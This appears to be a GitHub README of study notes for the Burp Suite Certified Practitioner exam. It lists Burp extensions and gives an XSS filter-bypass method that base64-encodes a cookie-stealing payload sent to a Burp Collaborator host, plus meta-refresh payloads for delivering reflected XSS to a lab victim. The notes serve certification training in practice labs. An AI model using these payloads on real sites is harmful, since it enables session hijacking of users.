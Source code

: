 # <img src="https://icons.iconarchive.com/icons/goescat/macaron/1024/burp-suite-icon.png" width=25> BSCP Methodology


## Useful Burp extensions (some of them requires burpsuite pro)
- Hackvertor
- Copy As Python-Requests
- Java Deserialization Scanner | [yserial.jar](https://github.com/frohoff/ysoserial) for manual exploitation<b>(prefer because sometime this extension it doesn't work as it should)</b>
- HTTP Request Smuggler


## Cross-Site Scripting Section
You can find an injection point with some payloads from this repository - [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

### Bypass restrictions method 1
Sometimes we found a XSS injection point but with some keyword restrictions, so we have to bypass these restrictions with some techniques below.
1. Generate the base64 payload

```bash
echo -n "document.location = 'http://<BURP-COLLABORATOR.NET>/?cookie='+document.cookie" |base64
```

2. Insert the base64 payload into atob function
```javascript
eval(atob("BASE64-PAYLOAD"))
<script>eval(atob("BASE64-PAYLOAD"))</script>
```

## Exploit Server Section
#### Send exploit to victim (Reflected XSS in search bar)
```html
<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?search=injection_here' />

<!-- ALL TOGETHER BELOW-->
<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?SearchTerm=aa","fd8xsw5l":eval(atob("BASE64-PAYLOAD"))}//' />
```

## SQL Injection Section
